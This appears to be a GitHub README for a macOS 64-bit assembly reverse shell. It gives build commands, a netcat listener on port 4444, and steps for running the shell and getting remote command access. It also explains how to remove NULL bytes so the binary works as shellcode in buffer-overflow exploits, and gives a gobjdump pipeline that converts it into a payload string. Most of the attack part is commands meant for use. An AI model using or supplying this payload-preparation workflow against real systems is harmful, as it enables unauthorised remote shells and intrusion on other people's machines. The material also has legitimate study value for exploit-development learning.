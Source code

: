 reverse_shell
=============

program that call out to a service that is listening to port 4444, the ip is set to any for simplicity.

It is written for mac osx 64 bit

#### Usage:
  Start a listening server with the command: `nc -l 4444` in another folder for example your home directory
```
  nasm -g -f macho64 reverse_shell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o reverse_shell reverse_shell.o
  ./reverse_shell
```  
  Go back to the terminal that you started nc in and type ls, you should now see a directory listing of the directory you started
  reverse_shell in.
  
To use the code as a payload, one need to remove the NULL bytes, these can be found by running: otool -lV reverse_shell and identify
the mov instructions that need to be modified. The reason are the numerous NULL bytes (\x00). 
Most buffer overflow errors are related to C stdlib string functions: strcpy(), sprintf(), strcat(), 
and so on. All of these functions use the NULL symbol to indicate the end of a string. 
Therefore, a function will not read shellcode after the first occurring NULL byte.
There are other delimiters like linefeed (0x0A), carriage return (0x0D), 0xFF, and others.
See the code for two example on how to change the mov instruction

#### Binary to string
To convert the binary to string values that can be used as a payload use
```
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
```
  By inspecting this file, we see why NULL(0x00) is a problem as in C a string is terminated by NULL so these has to be removed
  A simple `paste -d'\0' -s dump.txt` will combine all rows into one that can then be copied into the C file.
  
  
